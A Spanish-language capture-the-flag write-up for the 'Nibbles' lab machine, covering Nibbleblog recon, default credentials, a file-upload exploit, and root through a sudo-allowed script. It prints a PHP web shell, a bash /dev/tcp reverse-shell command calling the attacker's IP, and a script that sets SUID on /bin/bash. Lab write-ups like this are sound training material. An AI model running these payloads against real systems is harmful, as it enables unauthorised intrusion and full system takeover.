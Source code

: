 ## Summary

Tags: 

- IP -> 10.10.10.75
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2  
    - 80 -> Apache httpd 2.4.18 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

Buscaremos con el codename **OpenSSH 7.2p2 ubuntu 4ubuntu2.2 launchpad** y veremos que version de Linux es: Xenial
Buscaremos con el codename **apache httpd 2.4.18 launchpad** y veremos que version de Linux es: Xenial
## Recon


```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
	
- Tiene PHP, jQuery 2.1.0 que esta desactualizado. La ultima version de jQuery es 3.6.3
- Nibbles es un CMS 
```

```bash 
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ

- Encontramos un panel de autenticacion 
	- Las credenciales por defecto estan en internet admin:nibbles

❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php

- Encontramos un archivo 'php' llamado 'install.php' en el se encuentra la version de Nibbles que es 4.0.3 vulnerable a Arbitrary File Upload 
```

```bash 
❯ searchsploit -x 15265.txt                 # Para mirar el contenido del exploit que encontramos para 'nibbleblog'
	# x = examin 
- Miramos que existe una ruta en el exploit de la pagina web en donde podemos subir archivos, en la cual subiremos el siguiente archivo php con una 'revershell'
```

```bash 
nano cmd.php
	<?p 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	 ?>

- La ruta en la url en donde los guarda es '/nibbleblog/content/private/pluggis/my_images'
```

## User

Ahora podemos ejecutar comando remotos colocando esto al final de la url **?cmd=whoami**

```bash 
❯ nc -nlvp 443             # Modo escucha para recibir la revershell 
```

En la url escribimos lo siguiente /image.php?cmd=**bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"** Esto nos dará la revershell a nuestra IP
Colocamos lo anterior en url-encode para que nos marque algun error:
- **bash -c "bash -i >%26 /dev/tcp/10.10.14.17/443 0>%261"** 

Y ya entramos a la maquina victima. Por lo que ahora hacemos tratamiento de la tty
-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimensiones de la consola nano

-
Despues buscamos la primer flag -> user.txt

## Root

- **sudo -l** Tenemos un privilegio a nivel de sudoers
-Nos debemos de crear una ruta y un archivo con extension .sh que el cual al momento de escribirle algo lo podremos ejecutar como root y así ganaremos acceso. 

nano monitor.sh 
	#!/bin/bash
	chmod u+s /bin/bash

Con este script queremos que nos ejecute este script con un permiso suid a la bash

- **sudo -u root /home/nibbler/personal/stuff/monitor.sh** Haremos que root no ejecute ese script ya que solo ahi podemos ejecutar con ese privilegio de root y nos dara una S -> privilegio suid 
- **bash -p**  (p=priviledge) y que me de la bash de forma temporal como root y listo 
Ahora solo queda buscar la flag root.txt
